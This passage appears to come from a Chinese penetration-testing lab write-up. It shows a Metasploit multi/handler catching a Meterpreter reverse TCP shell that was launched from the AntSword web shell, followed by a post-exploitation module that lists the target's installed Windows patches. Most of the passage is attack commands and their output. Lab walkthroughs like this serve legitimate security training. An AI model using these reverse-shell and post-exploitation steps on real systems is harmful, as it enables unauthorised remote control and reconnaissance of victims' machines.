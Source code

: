 ```bash
msf6 exploit(multi/handler) > show options 
                                                                                                                                     
Module options (exploit/multi/handler):                                                                                              
                                                                                                                                     
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.137  yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 

```



到蚁剑中运行

![image-20220811184743952](./1.assets/image-20220811184743952.png)

Kali监听响应：

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 
[*] Sending stage (200262 bytes) to 192.168.220.138
[*] Meterpreter session 2 opened (192.168.220.137:9999 -> 192.168.220.138:1237 ) at 2022-08-11 06:45:39 -0400

meterpreter > 
```



收集补丁信息

```
meterpreter > run post/windows/gather/enum_patches

[*] Patch list saved to /root/.msf4/loot/20220811064922_default_192.168.220.138_enum_patches_752941.txt
[+] KB2534111 installed on 8/25/2019
[+] KB2999226 installed on 9/15/2019
[+] KB958488 installed on 8/29/2019
[+] KB976902 installed on 11/21/2010
```
